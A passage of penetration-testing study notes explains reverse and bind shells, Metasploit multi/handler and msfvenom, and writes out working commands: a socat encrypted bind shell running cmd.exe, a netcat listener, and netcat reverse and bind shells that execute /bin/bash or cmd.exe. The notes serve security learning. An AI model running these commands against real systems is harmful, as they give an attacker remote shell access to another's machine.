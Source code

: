 The same technique would apply for a bind shell.

- Target: `socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 EXEC:cmd.exe,pipes`
- Attacker: `socat OPENSSL:<TARGET-IP>:<TARGET-PORT>,verify=0`
### Metasploit -- multi/handler

The `auxiliary/multi/handler` module of the Metasploit framework is, like socat and netcat, used to receive reverse shells.

- The only way to interact with a meterpreter shell and easiest way to handle staged payloads.

### Msfvenom

Like multi/handler, msfvenom is technically part of the Metasploit Framework.

- Shipped as a standalone tool
- Used to generate payloads on the fly
- Msfvenom can generate payloads other than reverse and bind shells

## Types of Shell

### Reverse Shells

When the target is forced to execute code that connects back to your computer (need a listener back to attacker computer).

- Reverse shells are good way to bypass firewall rules that may prevent from connecting to arbitrary ports on the target.
  - Drawback is to configure own network to accept the shell over the internet.

#### Reverse Shell Example

A reverse shell listener to receive the connection. A simulation of sending a reverse shell.

![reverse shell](https://i.imgur.com/rN7YkJJ.png)

On the attacking machine: `sudo nc -lvnp 443`

On the the target: `nc <LOCAL-IP> <PORT> -e /bin/bash`

### Bind Shells

When the code executed on the target is used to start a listener attached to a shell directly on the target.

- Open to the internet allowing to connect to the port that the code has opened and obtain remote code execution.
  - Advantage of not requiring any configuration on own network, but may be prevented by firewalls protecting the target.

#### Bind Shell Example

Listener on the target and telling it to execute `cmd.exe`.

On the target: `nc -lvnp <PORT> -e "cmd.exe"`
